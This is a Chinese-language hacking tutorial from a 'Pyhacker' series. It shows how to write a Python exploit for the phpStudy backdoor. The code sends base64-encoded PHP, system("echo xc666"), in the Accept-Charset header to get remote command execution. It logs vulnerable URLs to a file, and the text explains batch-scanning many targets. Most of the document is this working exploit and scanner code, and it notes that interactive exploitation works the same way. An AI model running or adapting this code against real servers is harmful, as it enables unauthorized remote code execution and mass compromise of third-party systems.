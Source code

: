 ## Pyhacker 之 漏洞POC编写

**00x1：**  

需要用到的模块如下：  

import requests  

import base64  

**00x2：**  

既然是漏洞poc编写，那么我们肯定要有poc，当然直接exp利用也可以  

每当爆出新的漏洞，就会有专业大佬进行分析，发出poc，我们直接利用即可  

第一个例子，拿phpstudy后门为例  

先了解一下base64模块  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/10/1.png)  

**00x3：**  

接下来，你需要去了解一下这个后门，网上有很多分析文章  

```
Accept-Encoding:gzip,deflate
Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
```  

了解base64你就可以写一个交互式的Exp  

为了确定漏洞准确度，我们可以直接执行输出一个特定字符  

cHJpbnRmKG1kNSgzMzMpKTs=  

解码得：printf(md5(333));  

这样，网页只有这个md5才会确定存在漏洞，准确度极高  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/10/2.png)  

这里仅已验证漏洞为例```c3lzdGVtKCJlY2hvIHhjNjY2YSIpOw==```  

直接写入了base64验证poc，就不演示交互式的利用了，也是同理  

核心代码如下：  

```
headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'Accept-Encoding':'gzip,deflate',
            'Accept-Charset':'c3lzdGVtKCJlY2hvIHhjNjY2YSIpOw==',
            'Accept-Language':'zh-CN,zh;q=0.9',
            'Connection':'close',
            }
```  

主要就是Accept-Charset请求头，接着去写一个请求  

```
r = requests.get(url=url, headers=headers,timeout=5)
if 'xc666' in r.text:
    print u'over success：',url
else:
    print u'flase：',url
```  

加上结果自动保存：  

```
with open('success.txt','a+') as f:
    f.write(url+"\n")
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/10/3.png)  

批量检测：  

只需要修改最后一行，打开文件遍历url即可，前面讲了，这里就不再多说了  

**00x5：**  

完整代码：/books/config/10.[Pyhacker]漏洞Poc编写  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests
headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'Accept-Encoding':'gzip,deflate',
            'Accept-Charset':'c3lzdGVtKCJlY2hvIHhjNjY2YSIpOw==',
            'Accept-Language':'zh-CN,zh;q=0.9',
            'Connection':'close',
            }

def phpstudy(url):
    try:
        if 'http' not in url:
            url = 'http://' + url
        r = requests.get(url=url, headers=headers,timeout=5)
        if 'xc666' in r.text:
            print u'over success：',url
            with open('success.txt','a+') as f:
                f.write(url+"\n")
        else:
            print u'flase：',url
    except:
        print u'连接超时',url

if __name__ == '__main__':
    url = raw_input('\nurl:')
    phpstudy(url)
```  

**注：**  

如Sql，Xss等漏洞的Poc，也是一样，直接请求就ok，然后去验证，大同小异